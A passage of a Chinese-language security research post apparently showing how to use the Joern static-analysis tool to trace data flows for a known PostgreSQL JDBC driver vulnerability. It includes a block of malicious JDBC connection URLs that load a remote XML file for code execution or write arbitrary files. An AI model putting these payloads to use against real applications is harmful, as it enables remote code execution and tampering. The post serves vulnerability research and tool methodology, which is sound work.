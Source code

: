 直接寻找source和sink之间的数据流

```cypher
sink.reachableByFlows(source).p
```

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311722453.png)

可以发现我们找到了包括目标在内的5条数据流，这里的第一个问题是，我们没法确定**jdbc是否支持postgreSQL**来作为数据库。

在确定了**入口可控**之后，**理论上配合组件版本**其实我们就可以判断代码中是否存在该问题了，但我们并没有这个数据。

## for PostgreSQL code

当然在静态分析的层面，我们需要从代码的角度验证漏洞存在，我们遇到的第二个问题自然是**利用链的问题**，所以我们需要直接去**分析postgresql的组件代码**。

```cypher
importCode("D:/program/java_pro/postgresql-42.3.1.jar", "postgresql")
```

当我们可控jdbc的连接的时候，我们就可以通过**构造类似的请求来调用不同类的方法**来实现我们想要的结果。

```cypher
# 命令执行
jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://test.joychou.org/1.xml

# 配合FileOutputStream操作文件
jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt

# sslfactory&sslfactroyarg，任意代码执行
jdbc:postgresql://127.0.0.1:5432/test/?sslfactory=org.spring.framework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=http://test.joychou.org/1.xml

# loggerLevel&loggerFile，任意文件写
jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=debug&loggerFile=test.txt&test
```

这里具体的利用链我们就不重复讲了，可以直接参考上面的链接，重要的是**我们怎么在joern中复现这个问题。**

我们拿**第一个漏洞socketFactory&socketFactoryArg的利用链**作为目标来看看

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311722796.png)

从getConnection方法处，j**dbc会根据不同的请求分发至不同的组件**。

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311722079.png)

**从connect方法一路跟进org.postgresql的代码**当中，**链接之后的参数会被拆解为字典**然后分别进入不同的配置中，也就是说等于到url这里我们就是可控的，也就是作为source，**进到包里的这个入口是connect方法**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311722400.png)

```cypher
def source = cpg.method.name("connect")
```
